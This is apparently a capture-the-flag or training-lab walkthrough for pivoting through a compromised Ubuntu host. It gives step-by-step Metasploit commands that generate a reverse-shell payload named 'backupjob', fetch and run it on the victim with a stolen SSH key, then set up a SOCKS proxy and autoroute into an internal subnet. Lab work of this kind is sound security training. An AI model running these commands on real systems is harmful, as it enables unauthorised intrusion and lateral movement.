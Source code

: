 Results: 172.16.5.35


**Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.**

```
###########
# I will use Module `Autoroute` in metasploit:
############

# Autoroute module allows you to set routes from a meterpreter session to a discovered subnet in the attacked machine. It allow us pivoting from one subnet to another.
# 1. Create a payload for the Ubuntu Pivot Host (our victim's machine 1):

msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ipKali -f elf -o backupjob LPORT=8080

# 2. Kali machine. Different terminal. Start a multi/handler, also known as a Generic Payload Handler.
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run

# 3. Once created, kali machine, serve it with a python http server
python3 -m http.server 8001

# 4. Connect to the Ubuntu with the id_rsa and download the file
ssh -i id_rsa webadmin@ipUbuntu
wget http://$ipKali:8001/backupjob
chmod +x backupjob

# 5. Ubuntu machine, execute the file to gain a Meterpreter session in your kali
./backupjob

# 6. Once the meterpreter Session is established, send the session to the background with CTRL-z and in the same terminal use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host.
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 
set version 4a
run
# This SOCKS configuration will start a listener on port 9050 and route all the traffic received via our Meterpreter session.
# Even though the command line has not returned anything you can ask for the jobs in execution with:
jobs

# Make sure that your /etc/proxychains4.conf in your kali has enabled the line
socks4 127.0.0.1 9050
# Note: Depending on the version the SOCKS server is running, we may occasionally need to changes socks4 to socks5 in proxychains.conf.

# 7. Finally, we need to tell our socks_proxy module to route all the traffic via our Meterpreter session. Use the post/multi/manage/autoroute module from Metasploit to add routes for the 172.16.5.0 subnet and then route all our proxychains traffic.
use post/multi/manage/autoroute
set SESSION 1
set SUBNET $NewSubnet
# Example: set SUBNET 172.16.5.0
run
```